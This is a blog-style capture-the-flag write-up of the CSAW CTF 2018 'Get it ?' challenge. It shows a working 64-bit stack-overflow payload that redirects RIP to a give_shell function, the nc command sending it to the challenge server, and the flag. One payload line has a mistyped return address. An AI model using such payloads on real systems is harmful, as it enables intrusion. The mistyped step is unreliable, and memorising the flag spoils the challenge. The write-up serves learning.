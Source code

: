 ```yaml
---
layout: post
title: CSAW CTF 2018 - Get it ?
image: "/assets/img/2018/csawctf2018/getit/1.png"
categories: [general, csawctf2018]
tags: [csawctf2018, writeup]
twitter_text: "Write-up for Get it ?"
introduction: "Write-up for Get it ?"
description: "Write-up for Get it ?"
---
```



![](/assets/img/2018/csawctf2018/getit/1.png)

First let's run the program to see what the program is about. It's a 64-bit ELF !

![](/assets/img/2018/csawctf2018/getit/2.png)


Now let's go to gdb to analyse the file. To begin I disassemble the main function, but I found nothing interesting.

![](/assets/img/2018/csawctf2018/getit/3.png)

After this I used IDA PRO. In the table of function, I can see a function whose name is "give_shell". If I looking around we can see that we have what we want, a call system :

![](/assets/img/2018/csawctf2018/getit/4.png)


Return into gdb to find the padding to control the RIP register. After a few try I found the good padding :

```
r <<< $(python2 -c 'print "A"*40+"B"*4')
```

And we can see that we control rip with 0x42424242(BBBB in hex).

![](/assets/img/2018/csawctf2018/getit/5.png)

Now we have to find the address of the function give_shell :

![](/assets/img/2018/csawctf2018/getit/6.png)

Restart the program with the commands, so that we have the address of give_shell in RIP :

```
 r <<< $(python2 -c 'print "A"*40+"\xb6\x05\x40"')
"')
```


As we can see, the address is not good, because it's a 64-bit program and we have to add some \x00 :


```
r <<< $(python2 -c 'print "A"*40+"\x6b\x05\x04\x00\x00\x00"')
```
![](/assets/img/2018/csawctf2018/getit/7.png)

And there you have your /bin/bash !!! 

![](/assets/img/2018/csawctf2018/getit/8.png)

The last step is to send the command in remote to get the flag :

```
python2 -c 'print "A"*40+"\xb6\x05\x40\x00\x00\x00"' > commands.txt
cat commands.txt - | nc pwn.chal.csaw.io 9001 
 ```


![](/assets/img/2018/csawctf2018/getit/9.png)


> Flag : ```flag{y0u_deF_get_itls}```